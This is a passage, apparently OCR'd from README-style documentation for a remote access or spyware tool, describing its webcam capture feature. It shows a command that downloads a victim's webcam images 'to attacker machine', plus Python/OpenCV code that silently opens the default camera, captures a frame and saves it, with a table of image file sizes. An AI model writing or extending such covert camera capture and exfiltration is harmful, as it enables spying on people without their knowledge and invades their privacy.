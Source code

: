 ```bash
download logs/webcam/webcam_20251004_143022.jpg
```

Downloads specific webcam image to attacker machine.

## Webcam Capture Method

### Requirements

**Library:** OpenCV (opencv-python)

**Installation:**

```bash
pip install opencv-python
```

### How It Works

1. Opens default webcam (camera index 0)
2. Captures single frame
3. Saves as JPEG image
4. Releases camera

### Technical Details

```python
import cv2

# Open webcam
camera = cv2.VideoCapture(0)

# Capture frame
ret, frame = camera.read()

# Save image
cv2.imwrite(filepath, frame)

# Release camera
camera.release()
```

## File Sizes

Typical webcam image sizes:

| Resolution          | File Size (JPEG) |
| ------------------- | ---------------- |
| 640x480 (VGA)       | 50-100 KB        |
| 1280x720 (HD)       | 100-300 KB       |
| 1920x1080 (Full HD) | 200-500 KB       |
| 2560x1440 (2K)      | 400-800 KB       |
| 3840x2160 (4K)      | 800 KB - 2 MB    |
